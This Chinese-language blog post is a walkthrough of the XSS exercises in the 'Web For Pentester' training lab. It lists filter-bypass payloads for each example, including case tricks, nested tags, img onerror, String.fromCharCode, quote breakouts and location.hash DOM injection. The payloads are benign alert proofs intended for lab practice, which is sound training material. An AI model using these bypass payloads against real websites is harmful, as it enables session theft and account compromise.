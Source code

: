 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用
### XSS Example 6
F12查看元素，发现输出在script标签中 *$a= "hacker";* ，那么直接闭合双引号就好
**name=XSS";alert($a);//**
### XSS Example 7
通过Example 6的方法发现双引号被HTML编码了，而且在$a=''处添加了单引号来申明变量内容，那么同样依照闭合的原则将双引号改为单引号即可
**name=XSS';alert($a);//**
### XSS Example 8
查询功能，将查询内容反馈至页面，那么也就是存储型XSS，使用\<script>标签进行测试，通过查看源码发现<>尖括号被HTML编码，一般来说XSS漏洞修复若将尖括号进行编码后输出可视为安全的，但发现这里的form表单里的url可为任意构造，尝试访问如下带有payload的url成功
**/xss/example8.php/" onmouseover="alert(1)**
### XSS Example 9
同样审查元素，发现使用了location.hash.substring(1)，那么直接构造
**/xss/example9.php#<script>alert(/XSS/)</script>**
